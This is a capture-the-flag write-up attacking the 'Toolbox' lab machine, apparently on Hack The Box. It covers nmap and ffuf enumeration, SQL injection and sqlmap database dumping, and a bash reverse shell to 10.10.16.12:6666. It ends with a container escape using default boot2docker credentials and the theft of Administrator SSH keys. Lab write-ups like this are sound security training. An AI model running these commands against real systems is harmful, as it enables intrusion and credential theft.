










# Toolbox
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.236
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 19:02 BST
Nmap scan report for 10.10.10.236 (10.10.10.236)
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b1aa18199eaf79602192e6e97045a3f (RSA)
|   256 a24b5ac70ff399a13aca7d542876b2dd (ECDSA)
|_  256 ea08966023e2f44f8d05b31841352339 (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.38 ((Debian))
|_http-title: MegaLogistics
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.38 (Debian)
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-07-09T18:02:45
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: -32s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.49 seconds

```
- Web server
  - There is also a certificate for `admin.megalogistic.com`




- `ffuf`
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u https://10.10.10.236 -H "Host: FUZZ.megalogistic.com" -k -fs 22357 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.10.236
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.megalogistic.com
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 22357
________________________________________________

[Status: 200, Size: 889, Words: 134, Lines: 36, Duration: 124ms]
```

- `admin.megalogistic.com`



- `ftp`


- `smb`


## Foothold/User
- So the only option is to check `admin` panel
  - I went through possible [entry point payloads](https://book.hacktricks.xyz/pentesting-web/sql-injection)
  - We have an error indicating that the backend database is `postgresql`


- Since we know the database, we can test bypass login payloads from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)
  - I went with the following payload `' or 1=1 --`



- But found nothing
  - So I ran `sqlmap` by saving request file from `Burp`
  - `sqlmap -r admin.megalogistic --force-ssl --batch --dbs` to list databases
  - `sqlmap -r admin.megalogistic --force-ssl --batch -D public --tables` to dump tables from `public` database
  - `sqlmap -r admin.megalogistic --force-ssl --batch -D public -T users --dump` to dump `users` table
  - Retrieved admin's hash `4a100a85cb5ca3616dcf137918550815` - but failed to crack it





- Let's try executing commands
  - `sqlmap -r admin.megalogistic --force-ssl --batch --os-cmd whoami`
  - And it works


- Let's get reverse shell
  - Spawn interactive shell to send a payload `sqlmap -r admin.megalogistic --force-ssl --batch  --os-shell`
  - Payload: `bash -c "bash -i >& /dev/tcp/10.10.16.12/6666 0>&1"` 




- The flag can be found in `/var/lib/postgresql` folder

## Root
- Currently we're in the container and need to escape it
  - Enumeration of the container revealed nothing
  - We might need to check the `exe` file found in `ftp`
  - We saw `Docker Toolbox`
  - Found [boot2docker](https://github.com/boot2docker/boot2docker#ssh-into-vm)
  - Apparently we can `ssh` to VM using following credentials `docker:tcuser`
  - If we check `ifconfig`, we have `172.17.0.2` so VM is probably `.1`




- We have `sudo` rights


- If we check the `/etc/*release`
  - It is indeed `boot2docker`


- Let's continue checking directories
  - We have `c` folder in the `/` path
  - If we check it, we see `Users`
  - If we continue following the path, we have an access to `Administrator`'s directory
  - So `Users` is probably mounted to `c`




- If we check `Administrator`'s directory we find `.ssh` folder which contains his keys
  - Let's copy them and connect



